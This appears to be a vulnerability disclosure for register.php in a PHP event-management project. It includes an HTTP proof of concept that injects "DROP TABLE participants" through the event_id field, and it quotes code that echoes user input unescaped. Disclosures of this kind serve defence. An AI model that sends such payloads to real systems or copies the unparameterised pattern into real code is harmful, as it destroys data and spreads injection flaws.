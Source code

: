 Vulnerability Description:

The code in register.php is vulnerable to SQL injection, allowing an attacker to manipulate the SQL query and potentially perform unauthorized actions on the database. Additionally, the code lacks proper input validation and sanitization, making it susceptible to various forms of attacks such as cross-site scripting (XSS) and potential security risks.


Proof of Concept (PoC):




SQL Injection:
The vulnerability can be exploited by an attacker by manipulating the input parameters. For example, the event_id parameter is directly used in the SQL query without proper validation or parameterization:

SQL Injection:
The vulnerability can be exploited by an attacker by manipulating the input parameters. For example, the event_id parameter is directly used in the SQL query without proper validation or parameterization:

An attacker can manipulate the event_id parameter in the HTTP request to inject malicious SQL code.

PoC:

POST /event-management-master/backend/register.php HTTP/1.1
Host: localhost
...
event_id=1'; DROP TABLE participants; --

This could result in a SQL query like:



INSERT INTO `participants` (`p_id`,`event_id`, `fullname`, `email`, `mobile`,  `college`, `branch`) 
VALUES (NULL,'1'; DROP TABLE participants; --', 'test', 'test@gmail.com', '0555555555', 'asd', 'qwe')


To mitigate this, use prepared statements or parameterized queries to ensure proper sanitization of user inputs.


Vulnerable code section:

$event_id = $_POST['event_id'];
$mobile = $_POST['mobile'];
$name = "/^[a-zA-Z ]+$/";
$emailValidation = "/^[_a-z0-9-]+(\.[_a-z0-9-]+)*@[a-z0-9]+(\.[a-z]{2,4})$/";
$number = "/^[0-9]+$/";

...

if(!preg_match($number,$mobile)){
    // Vulnerable to bypass using non-numeric characters
    echo "<div class='alert alert-warning'>
            <a href='#' class='close' data-dismiss='alert' aria-label='close'>&times;</a>
            <b>Mobile number $mobile is not valid</b>
          </div>";
    exit();
}



